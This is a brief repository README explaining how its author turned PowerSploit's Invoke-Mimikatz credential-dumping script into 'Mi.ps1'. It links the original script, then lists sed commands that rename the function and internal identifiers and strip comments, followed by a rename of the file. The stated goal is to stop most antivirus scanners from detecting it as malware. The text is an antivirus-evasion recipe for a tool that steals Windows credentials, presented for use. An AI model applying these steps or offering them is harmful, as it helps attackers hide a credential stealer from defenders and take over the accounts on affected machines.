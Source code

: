 # Mimikatz

Mi.ps1 is a modified version of Mimikatz which is available at https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1

I downloaded the file an modified it with the following commands:

<pre>
sed -i -e 's/Invoke-Mimikatz/Invoke-Mimidogz/g' Invoke-Mimikatz.ps1
sed -i -e '/<#/,/#>/c\\' Invoke-Mimikatz.ps1
sed -i -e 's/^[[:space:]]*#.*$//g' Invoke-Mimikatz.ps1
sed -i -e 's/DumpCreds/DumpCred/g' Invoke-Mimikatz.ps1
sed -i -e 's/ArgumentPtr/BirdIsTheWord/g' Invoke-Mimikatz.ps1
sed -i -e 's/CallDllMainSC1/UnceUnceUnce/g' Invoke-Mimikatz.ps1
sed -i -e "s/\-Win32Functions \$Win32Functions$/\-Win32Functions \$Win32Functions #\-/g" Invoke-Mimikatz.ps1
</pre>

At the end I renamed the file with:

<pre>
mv Invoke-Mimikatz.ps1 Mi.ps1
</pre>

This will change the bahivor of most AV scanners. The file will be no longer detected as maleware, but the execution will be still blocked when the code sucked in.
